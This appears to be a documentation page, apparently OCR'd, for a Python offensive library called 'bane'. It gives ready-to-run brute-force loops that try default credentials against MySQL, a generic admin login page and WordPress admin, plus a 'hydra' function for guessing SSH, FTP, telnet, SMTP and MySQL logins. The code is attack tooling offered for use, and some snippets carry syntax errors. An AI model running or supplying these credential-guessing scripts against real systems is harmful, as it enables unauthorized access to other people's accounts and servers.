 <br><h3>MYSQL:</h3>

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.mysql("example.com",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'

<br><h3>ADMIN LOGIN:</h3>

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.adminlogin("http://example.com/admin/login.php",{'username':user,'password':pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'



<br><h3>WORDPRESS ADMIN LOGIN:</h3>


<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.wpadmin("http://example.com/",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'



<br><h3>HYDRA TOOL:</h3> 

<br>hydra is a famous tool that is widely used for bruteforce attacks. here is a python version of it in python based on the above functions.
<br>it takes the following parameters:

<br>proto:set by default to: "ssh", it can be set to: "ftp","ssh","telnet","smtp","mysql","wp" (to bruteforce WP sites on HTTP protocol)<br>p: target port, set by default to: 22<br>wl: the list contains usernames and passwords seperated by ":", ex: ["admin:admin","admin:12345","root:root"]


<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>bane.hydra("127.0.0.1",proto="telnet",p=23,wl=wordlist)
